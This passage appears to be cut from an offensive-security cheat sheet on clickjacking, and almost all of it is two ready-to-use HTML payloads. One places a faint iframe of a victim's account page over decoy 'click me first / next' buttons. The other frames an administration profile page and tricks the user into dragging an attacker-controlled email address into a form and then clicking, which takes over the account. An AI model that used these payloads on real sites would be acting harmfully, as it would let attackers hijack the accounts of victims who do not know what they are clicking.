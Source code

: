 ```markup
```

### Multistep Payload

```markup
<style>
   iframe {
       position:relative;
       width: 500px;
       height: 500px;
       opacity: 0.1;
       z-index: 2;
   }
   .firstClick, .secondClick {
       position:absolute;
       top:330px;
       left:60px;
       z-index: 1;
   }
   .secondClick {
       left:210px;
   }
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://vulnerable.net/account"></iframe>
```

### Drag\&Drop + Click payload

```markup
<html>
<head>
<style>
#payload{
position: absolute;
top: 20px;
}
iframe{
width: 1000px;
height: 675px;
border: none;
}
.xss{
position: fixed;
background: #F00;
}
</style>
</head>
<body>
<div style="height: 26px;width: 250px;left: 41.5%;top: 340px;" class="xss">.</div>
<div style="height: 26px;width: 50px;left: 32%;top: 327px;background: #F8F;" class="xss">1. Click and press delete button</div>
<div style="height: 30px;width: 50px;left: 60%;bottom: 40px;background: #F5F;" class="xss">3.Click me</div>
<iframe sandbox="allow-modals allow-popups allow-forms allow-same-origin allow-scripts" style="opacity:0.3"src="https://target.com/panel/administration/profile/"></iframe>
<div id="payload" draggable="true" ondragstart="event.dataTransfer.setData('text/plain', 'attacker@gmail.com')"><h3>2.DRAG ME TO THE RED BOX</h3></div>
</body>
</html>
```
